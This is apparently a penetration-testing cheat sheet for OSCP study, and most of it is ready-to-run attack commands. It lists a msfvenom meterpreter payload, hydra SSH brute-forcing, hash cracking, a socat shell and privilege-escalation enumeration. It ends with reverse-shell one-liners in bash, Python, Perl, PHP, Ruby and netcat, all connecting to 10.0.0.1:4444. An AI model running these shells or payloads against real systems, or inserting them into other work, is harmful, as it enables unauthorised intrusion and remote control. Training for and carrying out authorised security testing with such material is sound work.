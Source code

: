 ### Exploitation

| Command | Description | Example |
|---------|-------------|---------|
| `searchsploit` | Search exploit-db | `searchsploit apache 2.4.7` |
| `msfconsole` | Metasploit Framework | `msfconsole` |
| `msfvenom` | Payload generator | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > shell.exe` |
| `hydra` | Password cracking | `hydra -l admin -P passwords.txt ssh://192.168.1.1` |
| `john` | Password cracking | `john --wordlist=wordlist.txt hashes.txt` |
| `hashcat` | Password cracking | `hashcat -m 0 -a 0 hashes.txt wordlist.txt` |

### Post-Exploitation

| Command | Description | Example |
|---------|-------------|---------|
| `netcat` | Networking utility | `nc -lvnp 4444` |
| `socat` | Multipurpose relay | `socat TCP4-LISTEN:4444,fork EXEC:/bin/bash` |
| `python -c 'import pty;pty.spawn("/bin/bash")'` | Spawn TTY shell | `python -c 'import pty;pty.spawn("/bin/bash")'` |
| `find / -perm -u=s -type f 2>/dev/null` | Find SUID binaries | `find / -perm -u=s -type f 2>/dev/null` |
| `find / -writable -type d 2>/dev/null` | Find writable directories | `find / -writable -type d 2>/dev/null` |
| `uname -a` | Kernel information | `uname -a` |
| `cat /etc/issue` | OS information | `cat /etc/issue` |
| `cat /etc/*-release` | OS version | `cat /etc/*-release` |

## One-Liners for OSCP

### Reverse Shells

```bash
# Bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Perl
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# PHP
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# Netcat
nc -e /bin/sh 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```
